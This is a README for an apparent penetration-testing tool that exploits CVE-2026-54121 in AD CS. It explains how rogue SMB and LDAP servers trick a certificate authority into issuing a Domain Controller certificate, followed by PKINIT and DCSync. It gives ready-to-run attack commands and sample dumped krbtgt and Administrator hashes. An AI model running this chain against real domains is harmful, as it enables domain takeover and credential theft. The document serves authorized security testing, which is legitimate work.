

# CQCertiGhostChecker

**CVE-2026-54121 -- AD CS Chase Mechanism Abuse**

Exploit tool that abuses the AD CS chase mechanism vulnerability to impersonate
a Domain Controller using a low-privileged domain user account, then performs
DCSync to extract domain credential material.

Developed by CQURE Academy. For authorized penetration testing only.



## How it works

AD Certificate Services resolves certificate requestor identity by performing
an LDAP lookup to a Domain Controller. The `cdc` (Client DC) request attribute
tells the CA which DC to query. The CA trusts this value without validation.

The attack chain:

```mermaid
sequenceDiagram
    participant ATK as Attacker (Kali)
    participant DC as Domain Controller
    participant CA as Certificate Authority
    participant RSMB as Rogue SMB/LSA :445
    participant RLDAP as Rogue LDAP :389

    Note over ATK,DC: Step 1 - AD Discovery
    ATK->>DC: LDAP query (UAC=8192, pKIEnrollmentService)
    DC-->>ATK: CA name, DC FQDN, domain SID

    Note over ATK,DC: Step 2 - Machine Account
    ATK->>DC: addcomputer (MachineAccountQuota)
    DC-->>ATK: ATTACKER$ created (SID, NT hash)

    Note over ATK,CA: Step 3 - Chase Mechanism (the vulnerability)
    rect rgb(80, 20, 20)
        ATK->>CA: CSR via MS-ICPR with cdc=attacker_ip, rmd=DC01
        CA->>RSMB: "Is this domain trusted?"
        RSMB->>DC: Netlogon validation (NLOracle)
        DC-->>RSMB: Validation OK
        RSMB-->>CA: "Yes, trusted"
        CA->>RLDAP: "Look up identity of rmd (ATTACKER$ DN)"
        RLDAP-->>CA: objectSid, sAMAccountName, dNSHostName of DC01
        CA-->>ATK: Certificate with DC01 identity (Subject + DNS + SID)
    end

    Note over ATK,DC: Step 4 - PKINIT
    ATK->>DC: Kerberos AS-REQ with DC01 certificate
    DC-->>ATK: TGT as DC01$

    Note over ATK,DC: Step 5 - DCSync
    ATK->>DC: DRS replication (secretsdump)
    DC-->>ATK: krbtgt + all domain hashes
```



> **Full interactive diagram:** open [`docs/attack-chain.html`](docs/attack-chain.html) in a browser.

1. **AD Discovery** - LDAP query for CA, DC, domain SID and GUID
2. **Machine account** - create via `ms-DS-MachineAccountQuota`
3. **Certificate enrollment (Chase Mechanism)** - start rogue SMB/LSA (445) and
   LDAP (389), submit CSR with `cdc` pointing to attacker IP and `rmd` set to
   target DC FQDN; CA validates trust via rogue LSA, looks up identity via rogue
   LDAP (sealed channel), issues cert with DC identity
4. **PKINIT** - authenticate as DC using the issued certificate
5. **DCSync** - extract domain secrets (krbtgt, Administrator, all accounts)

### Why this is independent of ESC1-ESC8

The CA uses the Machine template with "Build from Active Directory" for subject
construction. The CA queries identity from what it believes is a legitimate DC
(via `cdc` attribute), but actually hits the attacker's rogue LDAP server. The
identity in the certificate comes entirely from the chase LDAP lookup response.
This means the vulnerability works on fully hardened AD CS environments where
all classical ESC mitigations are applied. The only effective mitigation is
disabling the chase flag itself (`EDITF_ENABLECHASECLIENTDC`).

## Requirements

- Linux (tested on Kali); requires root/sudo (binds ports 445 and 389)
- Python 3.10+ (tested on 3.13)
- Network access to the target AD domain
- A low-privileged domain user account

## Installation

### Virtual environment (recommended)

```bash
git clone https://github.com/CQURE/CQTools.git
cd CQTools/OffensiveSecurity/CQCertiGhostChecker

python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# Verify all dependencies
python3 CQCertiGhostChecker.py check
```

### System-wide (Kali)

```bash
pip install -r requirements.txt
```

> **Note:** Kali ships `pycryptodomex` (namespace `Cryptodome`) by default.
> The tool uses `pycryptodome` (namespace `Crypto`). A virtual environment
> avoids conflicts between the two packages.

## Usage

All attack commands require **root/sudo** (ports 445 and 389).

```bash
# Full attack
sudo venv/bin/python3 CQCertiGhostChecker.py attack \
  -d cqure.lab \
  -u bob -p 'P@ssw0rd' \
  --dc-ip 10.10.10.10 \
  --ca-ip 10.10.10.20 \
  --ca-name cqure-SRV01-CA

# Auto-discover CA name
sudo venv/bin/python3 CQCertiGhostChecker.py attack \
  -d cqure.lab \
  -u bob -p 'P@ssw0rd' \
  --dc-ip 10.10.10.10

# Dependency check (no root needed)
python3 CQCertiGhostChecker.py check

# Dry run (show config, don't execute)
sudo venv/bin/python3 CQCertiGhostChecker.py attack \
  -d cqure.lab -u bob -p 'P@ssw0rd' \
  --dc-ip 10.10.10.10 --dry-run

# Verbose output
sudo venv/bin/python3 CQCertiGhostChecker.py attack \
  -d cqure.lab -u bob -p 'P@ssw0rd' \
  --dc-ip 10.10.10.10 -v
```

> **Important:** `sudo python3` uses the **system** Python, not your virtualenv.
> Always use `sudo venv/bin/python3` for attack commands, otherwise dependencies
> like `pycryptodome` will appear as missing.

### Options

| Flag | Description | Default |
|------|-------------|---------|
| `-d, --domain` | Target AD domain | required |
| `-u, --username` | Low-privileged domain user | required |
| `-p, --password` | User password (prompts if omitted) | interactive |
| `--dc-ip` | Domain Controller IP | required |
| `--ca-name` | CA name | auto-discovered |
| `--ca-ip` | CA server IP | auto-resolved from AD |
| `--target-dc` | DC to impersonate | auto-discovered |
| `--machine-account` | Machine account name | `ATTACKER$` |
| `--template` | Certificate template | `Machine` |
| `--rogue-port` | Rogue LDAP port | `389` |
| `--output` | Output ccache file | `dc.ccache` |
| `-v, --verbose` | Debug logging | off |
| `--dry-run` | Show config only | off |
| `--no-cleanup` | Keep machine account on exit | off |
| `--no-color` | Disable ANSI color output | off |
| `-q, --quiet` | Suppress banner and progress | off |
| `--log FILE` | Log to file (no ANSI in file) | none |
| `--version` | Show version and exit | -- |

## Output

On success the tool prints extracted hashes and saves a Kerberos ccache:

```
ATTACK COMPLETE
Credential Cache:   dc.ccache
Impersonated DC:    DC01.cqure.lab
krbtgt hash:        28ebf3faf8838ab278466456bbc9af2c
Administrator:      e19ccf75ee54e06b06a5907af13cef42
Accounts dumped:    42
Elapsed:            8.0s
```

## Project structure

```
CQCertiGhostChecker/
  CQCertiGhostChecker.py   # CLI entry point and attack orchestrator
  services.py               # Rogue SMB/LSA + LDAP servers, NLOracle
  certificate.py             # CSR builder and MS-ICPR enrollment
  discovery.py               # AD infrastructure discovery via LDAP
  machine_account.py         # Machine account creation and chase redirect
  kerberos_auth.py           # PKINIT authentication (certipy-ad)
  dcsync.py                  # DCSync via impacket-secretsdump
  dns_utils.py               # /etc/hosts helper for DC FQDN resolution
  config.py                  # Configuration dataclass
  ui.py                      # Banner, colors, formatted output
  requirements.txt           # Python dependencies
```

## Third-party components and licenses

This tool builds on the work of several open-source projects. The table below
lists each dependency, how it is used, its license, and the original author.

| Component | Usage | License | Author |
|-----------|-------|---------|--------|
| [impacket](https://github.com/fortra/impacket) | DCE/RPC client (MS-ICPR enrollment), NDR structures, SMB server framework, NTLM/Netlogon validation, `impacket-addcomputer` and `impacket-secretsdump` called as subprocesses | Apache (modified) | SecureAuth / Fortra |
| [certipy-ad](https://github.com/ly4k/Certipy) | `certipy-ad auth` called as subprocess for PKINIT (certificate-to-TGT) | MIT | Oliver Lyak (ly4k) |
| [ldap3](https://github.com/cannatag/ldap3) | LDAP connections to Active Directory (discovery, machine account, chase redirect) | LGPL-3.0 | Giovanni Cannata |
| [cryptography](https://github.com/pyca/cryptography) | CSR generation (PKCS#10), X.509 certificate parsing, PKCS#12 export | Apache-2.0 / BSD-3-Clause | PyCA |
| [pycryptodome](https://github.com/Legrandin/pycryptodome) | NTLM hash computation, MD4/DES/AES primitives | BSD / Public Domain | Helder Eijs |
| [dnspython](https://github.com/rthalley/dnspython) | DNS resolution (CA hostname to IP) | ISC | Bob Halley |
| [pyasn1](https://github.com/pyasn1/pyasn1) | ASN.1 encoding/decoding | BSD-2-Clause | Ilya Etingof |
| [asn1crypto](https://github.com/wbond/asn1crypto) | ASN.1 crypto structures | MIT | wbond |

### What was written from scratch

The following modules are original code by CQURE Academy:

- **`services.py`** -- Rogue SMB/LSA server (Netlogon trust validation via
  NLOracle) and rogue LDAP server (NTLM-sealed channel, identity spoofing).
  Built on top of impacket's `smbserver` and `DCERPCServer` frameworks.
- **`certificate.py`** -- MS-ICPR (ICertPassage) enrollment client with chase
  mechanism attributes (`cdc:`, `rmd:`). NDR request/response structures
  defined using impacket's NDR primitives.
- **`discovery.py`** -- AD infrastructure discovery (DC, CA, domain SID/GUID)
  via ldap3.
- **`machine_account.py`** -- Machine account lifecycle (create, configure
  dNSHostName redirect, cleanup).
- **`kerberos_auth.py`** -- PKINIT wrapper around `certipy-ad auth`.
- **`dcsync.py`** -- DCSync wrapper around `impacket-secretsdump`.
- **`CQCertiGhostChecker.py`** -- CLI entry point and 5-step attack
  orchestrator.

### Inspiration

The chase mechanism attack concept is based on research by
[aniqfakhrul](https://github.com/aniqfakhrul/CVE-2026-54121) (reference PoC).
The implementation in this tool is written independently.

## References

- [CVE-2026-54121](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-54121)
- [aniqfakhrul/CVE-2026-54121](https://github.com/aniqfakhrul/CVE-2026-54121) -- reference PoC
- [MS-WCCE: Windows Client Certificate Enrollment Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wcce/)
- [MS-ICPR: ICertPassage Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-icpr/)

## License

For authorized penetration testing and security research only.
